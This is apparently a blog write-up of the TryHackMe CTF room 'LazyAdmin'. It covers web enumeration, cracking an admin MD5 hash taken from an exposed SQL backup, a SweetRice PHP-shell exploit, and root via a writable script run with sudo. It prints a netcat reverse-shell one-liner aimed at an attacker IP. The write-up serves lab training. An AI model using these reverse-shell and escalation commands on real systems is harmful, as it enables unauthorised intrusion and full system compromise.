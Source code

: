 ```yaml
---
layout: post
title: TryHackMe - LazyAdmin
date: 2023-04-23 17:24
category: ctf
author: Akymos
tags: [ctf, tryhackme]
anchor: true
description: Easy linux machine to practice your skills
thumb: "/assets/images/ctf-lazyadmin/00.jpg"
---
```


<hr>
<h2>Table of Contents</h2>
<nav class="toc">
* toc
{:toc}
</nav>
<hr>
<div class="pb-1" />

## Room info
- **Name**: LazyAdmin
- **Link**: [https://tryhackme.com/room/lazyadmin](https://tryhackme.com/room/lazyadmin){:target="_blank"}
- **Subscription**: Free
- **Difficulty**: Easy
- **Description**: {{ page.description }}

### Questions
1. What is the user flag?
2. What is the root flag?

## Step 0 - Recon
### Nmap
``` bash
$ nmap -sC -sV 10.10.26.136
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-24 21:28 CEST
Nmap scan report for 10.10.26.136
Host is up (0.082s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
|_  256 61846227c6c32917dd27459e29cb905e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.88 seconds
```
Nice, port 80 is open, but nothing interesting on it, only the default Apache page.
![LazyAdmin - Apache default page](/assets/images/ctf-lazyadmin/01.png){:class="post-image"}

### Gobuster
``` bash
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 10.10.26.136 -q
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.10.26.136/content/]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 277]
```
We have a 'strange' directory: `/content`. Let's check it out.
![LazyAdmin - /content directory](/assets/images/ctf-lazyadmin/02.png){:class="post-image"}

### Gobuster on /content
``` bash
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 10.10.26.136/content -q
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/_themes              (Status: 301) [Size: 322] [--> http://10.10.26.136/content/_themes/]
/as                   (Status: 301) [Size: 317] [--> http://10.10.26.136/content/as/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.26.136/content/attachment/]
/images               (Status: 301) [Size: 321] [--> http://10.10.26.136/content/images/]
/inc                  (Status: 301) [Size: 318] [--> http://10.10.26.136/content/inc/]
/index.php            (Status: 200) [Size: 2198]
/js                   (Status: 301) [Size: 317] [--> http://10.10.26.136/content/js/]
```
Directory index is enabled. `/as` contains the admin panel of the website, but we don't have any credentials (YET).
The directory `/inc` contains another folder: `/inc/mysql_backup`. Inside it, we have a file called `mysql_bakup_20191129023059-1.5.1.sql`. Let's download it and check it out.
```php
<?php return array (
  0 => 'DROP TABLE IF EXISTS `%--%_attachment`;',
......
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
......
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
);?>
```
We have found the credentials for the admin panel: `manager:42f749ade7f9e195bf475f37a44cafcb` (MD5 hash).

### John the Ripper
``` bash
$ echo 42f749ade7f9e195bf475f37a44cafcb > hash.txt && john --format=RAW-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
***********      (?)     
1g 0:00:00:00 DONE (2023-04-24 21:59) 100.0g/s 3379Kp/s 3379Kc/s 3379KC/s coco21..redlips
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
So the admin account is:
- Username: `manager`
- Password: `***********`
![LazyAdmin - Admin panel](/assets/images/ctf-lazyadmin/03.png){:class="post-image"}

### Exploit
In this version of SweetRice, there is a vulnerability that allows us to use a PHP shell. We can use it to get a reverse shell.
[https://www.exploit-db.com/exploits/40700](https://www.exploit-db.com/exploits/40700){:target="_blank"}

## Question 1 - What is the user flag?
```sh
$ nc -lnvp 9001
listening on [any] 9001 ...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cat /home/itguy/user.txt
THM{***************************}
````
The user flag is: `THM{***************************}`

## Question 2 - What is the root flag?
### Privilege escalation
```sh
$ sudo -l 
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");

$ ls -lha /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

$ # We can modify the file /etc/copy.sh
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.32.129 9002 >/tmp/f" > /etc/copy.sh
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.32.129 9002 >/tmp/f

$ sudo /usr/bin/perl /home/itguy/backup.pl
```

### Root.txt
```sh
$ nc -lnvp 9002
listening on [any] 9002 ...
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
THM{***************************}
```
The root flag is: `THM{***************************}`